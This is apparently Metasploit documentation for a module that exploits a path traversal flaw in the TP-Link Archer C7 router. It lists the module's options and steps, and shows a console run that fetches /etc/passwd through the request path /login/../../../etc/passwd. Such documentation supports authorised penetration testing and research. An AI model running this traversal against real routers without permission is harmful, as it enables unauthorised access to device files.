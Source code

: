 ## Vulnerable Application

This module attempts to spider files from an archer c7 router using a known traversal
vulnerability

## Options

### FILE

This option sets what file you want to collect from the router.

### SAVE

Use this option to save the file found as loot

## Verification Steps

1. `use auxiliary/gather/tplink_archer_c7_traversal`
2. `set RHOSTS <addr>`
3. `set FILE <file>`
4. `run`

## Scenarios

### Archer C7_V1_141204_US

```
msf6 > use auxiliary/gather/tplink_archer_c7_traversal
msf6 auxiliary(gather/tplink_archer_c7_traversal) > set rhosts 192.168.0.1
rhosts => 192.168.0.1
msf6 auxiliary(gather/tplink_archer_c7_traversal) > run
[*] Running module against 192.168.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target device 'Archer C7'
[*] Grabbing data at /login/../../../etc/passwd
[+] /etc/passwd retrieved
root:x:0:0:root:/root:/bin/sh
Admin:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/bin/sh
daemon:x:2:2:daemon:/usr/sbin:/bin/sh
adm:x:3:4:adm:/adm:/bin/sh
lp:x:4:7:lp:/var/spool/lpd:/bin/sh
sync:x:5:0:sync:/bin:/bin/sync
shutdown:x:6:11:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
uucp:x:10:14:uucp:/var/spool/uucp:/bin/sh
operator:x:11:0:Operator:/var:/bin/sh
nobody:x:65534:65534:nobody:/home:/bin/sh
ap71:x:500:0:Linux Usermmm:/root:/bin/sh
admin:x:500:500:admin:/home:/bin/sh
guest:x:500:500:guest:/home:/bin/sh
root:x:0:0:root:/root:/bin/sh
admin:x:500:500:admin:/tmp/dropbear:/bin/sh

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
